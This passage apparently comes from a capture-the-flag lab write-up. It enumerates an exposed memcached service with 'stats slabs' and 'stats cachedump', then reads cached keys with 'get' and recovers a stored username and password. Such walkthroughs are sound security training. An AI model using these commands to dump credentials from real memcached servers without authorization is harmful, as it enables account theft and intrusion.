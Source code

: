 `stats slabs` gives information about the various slabs. In this case, there’s only one in use, 1:

```

stats slabs
STAT 1:chunk_size 96
STAT 1:chunks_per_page 10922
STAT 1:total_pages 1
STAT 1:total_chunks 10922
STAT 1:used_chunks 5
STAT 1:free_chunks 10917
STAT 1:free_chunks_end 0
STAT 1:mem_requested 371
STAT 1:get_hits 5
STAT 1:cmd_set 285
STAT 1:delete_hits 0
STAT 1:incr_hits 0
STAT 1:decr_hits 0
STAT 1:cas_hits 0
STAT 1:cas_badval 0
STAT 1:touch_hits 0
STAT active_slabs 1
STAT total_malloced 1048576
END

```

I can see what’s in the cache with `stats cachedump x y`, where `x` is the slab number I want and`y` is the number of keys I want to dump, where 0 is all.

```

stats cachedump 1 0
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
END

```

Obviously `user` and `passwd` seem the most interesting, but I’ll dump each with `get`:

```

get link
VALUE link 0 21
https://hackthebox.eu
END
get user
VALUE user 0 5
luffy
END
get passwd
VALUE passwd 0 9
0n3_p1ec3
END
get file
VALUE file 0 7
nothing
END
get account
VALUE account 0 9
afhj556uo
END

```
